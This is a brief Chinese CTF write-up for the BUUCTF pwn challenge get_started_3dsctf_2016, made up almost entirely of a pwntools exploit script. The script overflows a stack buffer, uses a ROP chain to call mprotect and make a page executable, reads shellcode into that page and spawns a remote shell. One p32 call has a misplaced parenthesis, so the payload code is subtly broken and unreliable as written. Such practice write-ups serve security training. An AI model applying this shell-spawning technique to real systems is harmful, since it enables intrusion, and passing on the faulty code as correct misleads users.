 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#get_started_3dsctf_2016)

第二种解题思路，通过mprotect函数修改内存权限

# exp

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
elf = ELF('./get_started_3dsctf_2016')
r=remote('node5.buuoj.cn',28232)
pop3_ret = 0x0806fc08	#pop三个寄存器
mem_addr = 0x80EB000	#要修改的地址
mem_size = 0x1000	#修改长度
mem_proc = 0x7	#权限rwx
mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']
payload1 = flat(b'A'*0x38 , p32(mprotect_addr) , p32(pop3_ret , p32(mem_addr) , p32(mem_size) , p32(mem_proc) , p32(read_addr) , p32(pop3_ret) , p32(0) , p32(mem_addr) , p32(0x100) , p32(mem_addr))
r.sendline(payload1)
payload2 = asm(shellcraft.sh()) 
r.sendline(payload2)
r.interactive()
```

